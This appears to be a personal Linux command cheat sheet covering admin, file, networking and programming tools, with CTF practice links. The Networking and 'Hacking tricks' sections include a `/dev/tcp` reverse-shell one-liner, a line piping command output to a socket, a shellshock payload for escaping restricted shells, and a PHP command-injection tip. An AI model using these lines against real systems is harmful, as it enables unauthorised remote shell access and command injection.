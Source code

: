 # Linux cheat sheet 
A quick reference for less commonly used commands and tricks.

## OS management

**`update-alternatives`**
    Update your default links in /usr/bin

## Useful One-Liners

* Checking md5 sums: 
  For macos:
    `curl -s https://site.com/md5sumfile.md5 && md5 -q /path/to/object`
  For Linux:
    `echo "$(curl -s https://amazon-ecs-cli.s3.amazonaws.com/ecs-cli-linux-amd64-latest.md5) /usr/local/bin/ecs-cli" | md5sum -c -`

* Troubleshooting CORS:
  `curl -X POST -d "gender=male&name_length=long" -H "Origin: http://localhost:3000" http://localhost:4200/post -v`

## File Management
**`xxd`**
    Create hex dumps

**`strings`**
    Good for getting readable text out of dumps

**`uniq`**
    Isolate unique lines in file

**`diff`**
    Examine file differences. vimdiff better for extensive edits

**`patch`**
    Apply changes to files

**`mkfifo`**
    first in first out pipe. 

## Administration
**`adduser`, `addgroup`**
    Prefer this over useradd/groupadd

**`groups`**
    What groups does the user belong to

**`usermod`**
    To add a user to groups:
        `usermod -aG [groups to add] [user]

**`id`**
    If you need queries beyond `groups`

**`dpkg`**
    For deb files. `-r` to remove things

## Networking
**`nmap`**
    Port scanning. 

**`nc` or nmap's `ncat`**
    Swiss army knife for network testing.

**`telnet`**
    Deprecated, but useful for port testing

**`openssl`**
    Openssl utility: key management, cert generation, etc.

**`/dev/tcp`**
    Can redirect things through network connections with `/dev/tcp/"ip"/"port"`. Not
    a real file, but more of a bash construct. Useful injection command. Has udp variant too. 
    ex. `bash -c "id &> /dev/tcp/127.0.0.1/80"`

**`exec "file-descriptor"<>"file"`**
    Can be used to create a read-write file for network communication in lieu netcat.
    Ex. `exec 134<>/dev/tcp/127.0.0.1/30002; bash <&134 >&134 2>&1 &` will open up
    an interactive shell. Just have a listener on port 30002 of the 127.0.0.1 machine

## Programming
**`ldconfig`**
    Can see installed libs, etc. `-p` to print

**`ldd`**
    Useful to find what a program is linked against.

**`checkinstall`**
    For removing packages built from source with no uninstall hook

## Hacking tricks

**shellshock**
    `ssh user@host '() { :;}; echo BAD CODE'` allows an authorized user with an authorized key
    to execute restricted commands. Good for restriced shell escalating.

  **PHP**
    Somebody using passthru(), exec(), or system() can possibly be exploited if they aren't
    using escapeshellarg().

## Sites

https://overthewire.org
https://www.scip.ch/en/?labs.20181206
https://hackthebox.eu
https://root-me.org
https://lolbas-project.github.io/#
https://gtfobins.github.io/#+shell
